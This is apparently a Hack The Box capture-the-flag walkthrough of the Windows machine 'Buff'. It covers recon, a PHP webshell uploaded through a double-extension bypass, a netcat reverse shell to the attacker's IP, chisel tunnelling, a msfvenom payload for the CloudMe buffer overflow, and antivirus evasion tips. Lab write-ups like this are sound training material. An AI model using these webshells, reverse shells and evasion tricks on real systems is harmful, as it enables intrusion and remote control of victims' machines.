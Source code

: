## HTB: Buff Walkthrough

### Overview
- **Machine Name:** Buff
- **IP Address:** 10.10.10.198
- **OS:** [Windows](Windows)
- **Difficulty:** Easy
- **Points:** 20

---

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.198
nmap -p 7680,8080 -sC -sV -oA scans/nmap-tcpscans 10.10.10.198
```
- Ports Open:
  - 8080: Apache [httpd](HTTP) 2.4.43 (Win64) PHP/7.4.6
  - 7680: Unknown

#### Gobuster
```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o scans/gobuster-root-small-php
```
- Interesting Directories:
  - /upload.php
  - /register.php
  - /about.php
  - /admin

---

### Initial Exploit

#### Identifying the Application
- Web app identified as **Gym Management System** from **Projectworlds.in**
- Confirmed via `/README.md` and `/contact.php`

#### Searchsploit
```bash
searchsploit gym management
```
- Found: **Gym Management System 1.0 - Unauthenticated RCE** (48506.py)

#### Webshell Upload
- Upload bypass via double extension: `shell.php.png`
- Upload via `upload.php?id=yourname`
- PHP shell content starts with PNG magic bytes:
```php
\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
- Trigger shell:
```bash
curl http://10.10.10.198:8080/upload/yourname.php?cmd=whoami
```

#### Upgrade Shell
- Serve nc64.exe over SMB using impacket’s smbserver:
```bash
smbserver.py share . -smb2support -username df -password df
```
- On Buff:
```cmd
net use \\10.10.14.20\share /u:df df
copy \\10.10.14.20\share\nc64.exe C:\programdata\nc.exe
C:\programdata\nc.exe -e cmd.exe 10.10.14.20 443
```
- Start listener:
```bash
rlwrap nc -lvnp 443
```

---

### Privilege Escalation

#### Enumeration
- Local port 8888 used by `CloudMe.exe`
- Found `CloudMe_1112.exe` in Downloads

#### Searchsploit
```bash
searchsploit cloudme
```
- Found: **CloudMe 1.11.2 - Buffer Overflow (48389.py)**

#### Setup Tunnel with Chisel
- Upload chisel client:
```cmd
copy \\10.10.14.20\share\chisel.exe C:\programdata\chisel.exe
```
- Start server on Kali:
```bash
chisel server -p 8000 --reverse
```
- Connect from Buff:
```cmd
chisel.exe client 10.10.14.20:8000 R:8888:127.0.0.1:8888
```

#### Modify Exploit Payload
- Use msfvenom to generate reverse shell:
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
- Replace payload in `48389.py`
- Run exploit:
```bash
python3 cloudme-bof.py
```
- Get admin shell at listener

---

### Flags
- **User:** `e9ff7f33************************`
- **Root:** `0e2cf4e5************************`

---

### Beyond Root

#### Gym Exploit Analysis
- Exploit uses `/upload.php` with `id` param to upload shell
- Bypasses extension filter with `.php.png`
- Bypasses MIME filter with correct Content-Type and PNG header

#### Defender Evasion
- Upload fails with `system()` due to AV
- Upload succeeds with `shell_exec()`
- Alternate bypass: inject HTML tags to evade Defender signature detection

---

### Summary
HTB: Buff is an excellent beginner-friendly box emulating an OSCP-style workflow: from web exploitation to bypassing upload filters, to privilege escalation through buffer overflow in a local service. The use of Chisel for tunneling and awareness of AV evasion techniques adds valuable depth to the learning experience.

